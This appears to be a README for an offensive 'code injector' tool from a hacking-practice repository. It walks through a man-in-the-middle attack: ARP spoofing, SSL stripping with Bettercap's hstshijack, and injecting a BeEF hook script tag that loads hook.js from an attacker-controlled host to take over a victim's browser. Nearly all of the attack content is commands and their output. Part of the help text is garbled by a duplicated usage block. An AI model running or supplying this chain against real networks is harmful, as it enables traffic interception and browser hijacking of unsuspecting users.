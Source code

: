 # Code injector

## Requirements

* Root access
* Python 3
* Scapy and NetfilterQueue modules
* BeEF
* Bettercap

## Usage

```shell
usage: code_injector.py [-h] [-d DESTINATION] [-c CODE]

optional arguments:
  -h, --help            show this help message and exit
  -d DESTINATION, --destination DESTINATION
                        Destusage: code_injector.py [-h] [-d DESTINATION] [-c CODE]

Code injector tool (use Bettercap hstshijack/hstshijack for sslstripping)

optional arguments:
  -h, --help            show this help message and exit
  -d DESTINATION, --destination DESTINATION
                        sslstrip, forward, or local
  -c CODE, --code CODE  Code to inject

Example: 
            code_injector.py # via a html file in location apache2 server on Kali, hook browser for BeEF, sslstrip on
```

### Kicking the tyres

Injection code: `<script src="http://192.168.122.108:3000/hook.js"></script>`

* Run the [arp_spoofer.py script](/layer2/arp_spoofer)

```shell
    @kali:~$ sudo python3 arp_spoofer.py
    [sudo] password for <user>: 
    [+] Setting forward
    [+] Packets sent: 63
```
* Run `bettercap` (also see the Troubleshooting section below)

```shell
    @kali:~$ sudo bettercap -iface eth0 -caplet hstshijack/hstshijack
```
* Run the `code_injector.py` script for using BeEF 

```shell
kali:~$ sudo python3 code_injector.py -d forward -c '<script src="http://192.168.122.108:3000/hook.js"></script>'
```

And check on Windows machine it works.

## Troubleshooting

* [ImportError on NetfilterQueue](https://github.com/tymyrddin/ymrir/wiki/netfilterqueue.md)
* [ImportError on Scapy](https://github.com/tymyrddin/ymrir/wiki/scapy.md)
* [BeEF unable to load extensions](https://github.com/tymyrddin/ymrir/wiki/beef.md)
* [Bettercap sslstrip not working](https://github.com/tymyrddin/ymrir/wiki/bettercap.md)
* [Undesired HTTPS redirects](https://github.com/tymyrddin/ymrir/wiki/https-browser.md)
* [Correctly configured HSTS](https://github.com/tymyrddin/ymrir/wiki/hsts.md)

